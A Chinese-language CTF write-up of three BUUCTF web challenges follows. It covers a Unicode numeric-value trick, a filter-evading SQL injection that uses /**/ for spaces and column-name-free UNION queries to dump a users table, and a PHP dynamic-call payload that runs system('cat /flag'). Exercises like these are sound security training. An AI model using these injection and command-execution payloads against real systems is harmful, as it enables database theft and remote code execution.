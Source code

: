 

# buuctf unicorn shop

直接尝试购买最贵的独角兽

报错:Only one char(?) allowed!     #只允许一个字符

题目提示unicode,去compart搜索比1337大的unicode码

搜索栏输入two thousand搜索,随便复制一个即可

购买最贵的独角兽,得到flag



# buuctf web1

发现广告申请页面存在注入点,手动fuzz以下发现过滤了or,注释符和空格

`/**/`代替空格

`-1'union/**/select/**/1,user(),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22'`

发现有22列,并且2,3有回显

因为or被过滤,所以只能用`mysql.innodb_table_stats`查询表名

`1'/**/union/**/select/**/1,(select(group_concat(table_name))from(mysql.innodb_table_stats)),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22'`

#查询表名

此时无法知道列名,使用无列名注入

 无列名注入爆字段

(select group_concat(a,b,c) from (select 1 as a,2 as b,3 as c union select * from users) as d)

当返回`Operand should contain 1 column(s)`说明列数一致

`1'/**/union/**/select/**/1,(select/**/group_concat(a,b,c)/**/from/**/(select/**/1/**/as/**/a,2/**/as/**/b,3/**/as/**/c/**/union/**/select/**/*/**/from/**/users)/**/as/**/ d),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22'`

`1'/**/union/**/select/**/1,(select/**/concat(a,b,c)/**/from/**/(select/**/1/**/as/**/a,2/**/as/**/b,3/**/as/**/c/**/union/**/select/**/*/**/from/**/users)d/**/limit/**/1,1),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22'`

拿到flag



# buuctf love math

- 知识点:php中可以把函数名通过字符串的方式传递给一个变量，然后通过此变量动态调用函数比如下面的代码会执行 system(‘cat/flag’);

期望执行:

`?c=($_GET[a])($_GET[b])&a=system&b=cat /flag`
